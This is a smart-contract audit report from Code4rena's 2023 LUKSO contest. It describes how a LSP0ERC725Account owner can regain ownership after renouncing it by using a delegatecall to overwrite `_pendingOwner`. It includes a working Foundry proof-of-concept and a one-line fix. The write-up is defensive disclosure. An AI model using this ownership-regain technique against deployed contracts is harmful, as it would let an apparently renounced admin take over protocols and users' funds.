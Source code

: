 ## Tags

- bug
- 2 (Med Risk)
- high quality report
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- M-01

# [The owner of a `LSP0ERC725Account` can become the owner again after renouncing ownership](https://github.com/code-423n4/2023-06-lukso-findings/issues/124) 

# Lines of code

https://github.com/code-423n4/2023-06-lukso/blob/main/contracts/LSP14Ownable2Step/LSP14Ownable2Step.sol#L176-L178


# Vulnerability details

## Bug Description

The `renounceOwnership()` function allows the owner of a `LSP0ERC725Account` to renounce ownership through a two-step process. When `renounceOwnership()` is first called, `_renounceOwnershipStartedAt` is set to `block.number` to indicate that the process has started:

[LSP14Ownable2Step.sol#L159-L167](https://github.com/code-423n4/2023-06-lukso/blob/main/contracts/LSP14Ownable2Step/LSP14Ownable2Step.sol#L159-L167)

```solidity
        if (
            currentBlock > confirmationPeriodEnd ||
            _renounceOwnershipStartedAt == 0
        ) {
            _renounceOwnershipStartedAt = currentBlock;
            delete _pendingOwner;
            emit RenounceOwnershipStarted();
            return;
        }
```

When `renounceOwnership()` is called again, the owner is then set to `address(0)`:

[LSP14Ownable2Step.sol#L176-L178](https://github.com/code-423n4/2023-06-lukso/blob/main/contracts/LSP14Ownable2Step/LSP14Ownable2Step.sol#L176-L178)

```solidity
        _setOwner(address(0));
        delete _renounceOwnershipStartedAt;
        emit OwnershipRenounced();
```

However, as `_pendingOwner` is only deleted in the first call to `renounceOwnership()`, an owner could regain ownership of the account after the second call to `renounceOwnership()` by doing the following:

1. Call `renounceOwnership()` for the first time to initiate the process.
1. Using `execute()`, perform a delegate call that overwrites `_pendingOwner` to his own address.
1. Call `renounceOwnership()` again to set the owner to `address(0)`.
 
As `_pendingOwner` is still set to the owner's address, he can call `acceptOwnership()` at anytime to regain ownership of the account.

## Impact

Even after the `renounceOwnership()` process is completed, an owner might still be able to regain ownership of an LSP0 account. 

This could potentially be dangerous if users assume that an LSP0 account will never be able to call restricted functions after ownership is renounced, as stated in [the following comment](https://github.com/code-423n4/2023-06-lukso/blob/main/contracts/LSP0ERC725Account/LSP0ERC725AccountCore.sol#L652):

> Leaves the contract without an owner. Once ownership of the contract has been renounced, any functions that are restricted to be called by the owner will be permanently inaccessible, making these functions not callable anymore and unusable.

For example, if a protocol's admin is set to a `LSP0ERC725Account`, the owner could gain the community's trust by renouncing ownership. After the protocol has gained a significant TVL, the owner could then regain ownership of the account and proceed to rug the protocol.  

## Proof of Concept

The following Foundry test demonstrates how an owner can regain ownership of a `LSP0ERC725Account` after `renounceOwnership()` has been called twice:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../contracts/LSP0ERC725Account/LSP0ERC725Account.sol";

contract Implementation {
    // _pendingOwner is at slot 3 for LSP0ERC725Account
    bytes32[3] __gap;
    address _pendingOwner; 

    function setPendingOwner(address newPendingOwner) external {
        _pendingOwner = newPendingOwner;
    }
}

contract RenounceOwnership_POC is Test {
    LSP0ERC725Account account;

    function setUp() public {
        // Deploy LSP0 account with this address as owner
        account = new LSP0ERC725Account(address(this));
    }

    function testCanRegainOwnership() public {
        // Call renounceOwnership() to initiate the process
        account.renounceOwnership();

        // Overwrite _pendingOwner using a delegatecall
        Implementation implementation = new Implementation();
        account.execute(
            4, // OPERATION_4_DELEGATECALL
            address(implementation),
            0,
            abi.encodeWithSelector(Implementation.setPendingOwner.selector, address(this))
        );

        // _pendingOwner is now set to this address
        assertEq(account.pendingOwner(), address(this));

        // Call renounceOwnership() again to renounce ownership
        vm.roll(block.number + 200);
        account.renounceOwnership();

        // Owner is now set to address(0)
        assertEq(account.owner(), address(0));

        // Call acceptOwnership() to regain ownership
        account.acceptOwnership();
        
        // Owner is now set to address(this) again
        assertEq(account.owner(), address(this));
    }
}
```

## Recommended Mitigation

Consider deleting `_pendingOwner` when `renounceOwnership()` is called for a second time as well:

[LSP14Ownable2Step.sol#L176-L178](https://github.com/code-423n4/2023-06-lukso/blob/main/contracts/LSP14Ownable2Step/LSP14Ownable2Step.sol#L176-L178)

```diff
        _setOwner(address(0));
        delete _renounceOwnershipStartedAt;
+       delete _pendingOwner;
        emit OwnershipRenounced();
```


## Assessed type

call/delegatecall
